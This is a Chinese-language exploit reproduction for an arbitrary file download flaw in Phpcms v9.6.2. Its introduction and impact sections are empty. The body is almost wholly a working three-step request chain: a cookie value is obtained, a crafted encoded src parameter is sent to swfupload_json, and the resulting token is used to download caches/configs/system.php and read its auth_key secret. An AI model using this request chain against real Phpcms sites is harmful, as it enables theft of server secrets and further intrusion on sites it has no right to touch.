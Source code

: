# Phpcms v9.6.2 任意文件下载

> 原文：[http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 任意文件下载.html](http://book.iwonder.run/0day/Phpcms/Phpcms v9.6.2 任意文件下载.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 第一步:进行如下请求获得 YDVIB_siteid 的值。

请求：

```
[GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1 
```

获得：

```
[cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst 
```

##### 第二步:在[POST DATA] 中的 userid_flash 参数的值设置为，第一步请求得到的 YDVIB_siteid 参数的值，并进行如下请求。

请求：

```
[GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1

[POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst 
```

获得：

```
[cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g 
```

##### 第三步:将 GET 请求中的 a_k 参数的值设置为第二步请求获得的 YDVIB_att_json 参数的值，并进行如下请求。

请求：

```
[get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw 
```

获得：

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

##### 最后点击”点击下载”的按钮进行如下请求，便可以下载/caches/configs/system.php 文件，得到里面的’auth_key’

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

![image](img/a8732d02aa29390df9e2817e0f6ea15e.png)

## 参考链接

> [https://www.freebuf.com/column/158352.html](https://www.freebuf.com/column/158352.html)


